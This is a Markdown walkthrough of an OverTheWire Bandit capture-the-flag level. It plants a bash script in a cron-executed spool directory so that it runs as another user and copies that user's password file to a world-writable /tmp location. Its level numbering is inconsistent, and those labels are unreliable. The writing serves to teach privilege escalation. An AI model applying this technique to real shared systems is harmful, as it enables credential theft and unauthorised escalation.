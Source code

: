 # Bandit Level 22 → Level 23

---

## 🎯 Objective

A script is being run automatically via `cron`. Your goal is to:
- Discover what script is being executed
- Exploit it to run your own code
- Extract the password for `bandit24`

You’ll write your **first custom shell** script to do this.



---


## 🛠️ Commands Used (with explanations)

- `ls` - Lists files and directories in the current location.
  - `-l` - Lists files with detailed permissions, ownership, and size information.
- `cat` - Displays the contents of a file.
- `nano` - A simple text editor used to write and edit files.
- `touch` - Creates an empty file or updates the timestamp of an existing one.
- `mktemp`- Creates a new temporary file with a unique name
  - `-d` - Creates a new temporary directory with a unique name.
- `cd` - Changes the current working directory.
- `chmod` - Changes file or directory permissions.
  - `777` - Grants read, write, and execute permissions to everyone (user, group, others).
- `cp` - Copies files or directories.
  
---

## 🚀 Steps to Solve
1. **Open your terminal**

2. **Run the following command to log into the server**:

```bash
ssh bandit20@bandit.labs.overthewire.org -p 2220
```

3. **Enter the password**

4. **Look inside `/etc/cron.d/` for cron job**:
```bash
ls /etc/cron.d/
```
  - You should see:
```bash
clean_tmp  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat
```

5. **Read the contents of the cron job**:
```bash
cat /etc/cron.d/cronjob_bandit24
```
  - You should see:
    ```bash
    @reboot bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh  &> /dev/null
    ```
    
6. **Read the script that is being run**:
```bash
cat /usr/bin/cronjob_bandit24.sh
```
  - You should see:
       ```bash
       #!/bin/bash
       
       myname=$(whoami)
       
       cd /var/spool/$myname/foo
       echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
       for i in * .*;
       do
         if [ "$i" != "." -a "$i" != ".." ];
         then
           echo "Handling $i"
           owner="$(stat --format "%U" ./$i)"
            if [ "${owner}" = "bandit23" ]; then
                timeout -s 9 60 ./$i
            fi
            rm -f ./$i
        fi
      done
       ```
       - The scheduled task is executing scripts inside `/var/spool/$myname/foo`, deleting them after execution 
       - `$myname` = `bandit24` - since its executed inside `bandit24's` space
       - Therefore, our script needs to go into `/var/spool/bandit24/foo`
   
         
7. **Create a `tmp` directory to work in**:
```bash
mktemp -d
```
  - You should see:
    ```bash
    /tmp/tmp.<tmp_directory>
    ```
    
8. **Move into `/tmp/tmp.<tmp_directory>`**:
```bash
cd /tmp/tmp.<tmp_directory>
```

9. **Create a script**:
```bash
touch tmp.sh
 ```

10. **Open, edit, and save the script**:
```bash
nano tmp.sh
 ```
  - I prefer nano, but options like vim also work
  - Add the following script:
    ```bash
    myname=$(whoami)

    cat /etc/bandit_pass/$myname > /tmp/tmp.<tmp_directory>/password
    ```
      - This script is from the `bandit22` level
      - We are saving the `bandit24` password to a file, called password, in `<tmp_directory>`
        
11. **Create the password file**:
```bash
nano password
 ```

12. **Set permissions**:
```bash
chmod 777 <tmp_directory>
chmod 777 tmp.sh
chmod 777 password
 ```
- `chmod 777 tmp.sh` - Makes the script executable by all users, including `bandit24`, so the cron job can run it.
- `chmod 777 password` - Makes the output file writable by `bandit24`, so the script can write the password to it
- `chmod 777 <tmp_directory>` - Ensures the directory is accessible (read/write/execute) by `bandit24`:
    - Read to list files
    - Write to create or modify files
    - Execute to enter/access the directory - without this permissions, the `password` cannot be accessed
        
13. **Check permissions**:
```bash
ls -l
 ```
- You should see:
  ```bash
  -rwxrwxrwx 1 bandit23 bandit23 33 Jun  8 17:27 password
  -rwxrwxrwx 1 bandit23 bandit23 78 Jun  8 17:14 tmp.sh
  ```
  
   
14. **Copy the script into `/var/spool/bandit24/foo/`**:
```bash
cp tmp.sh /var/spool/bandit24/foo/
```
- Wait 1-2 minutes for the cron job to run

15. **Display the contents of `password`**:
```bash
cat password
 ```

Thats the password for `bandit24`

---

## 🎉 You’ve now completed Level 23 → Level 24!


---

## 🧠 Lessons Learned / Notes
- This level teaches **privilege escalation through writable cron-controlled directories**.

- Writing simple bash scripts is a powerful skill.

- `/tmp` is world-writable and readable - great for sharing data between users, but a security risk in real-world systems.

- While `chmod 777` works for this challenge (since it's a CTF-style learning environment), it's generally **insecure in production systems**. It gives full read/write/execute permissions to everyone, including malicious users.
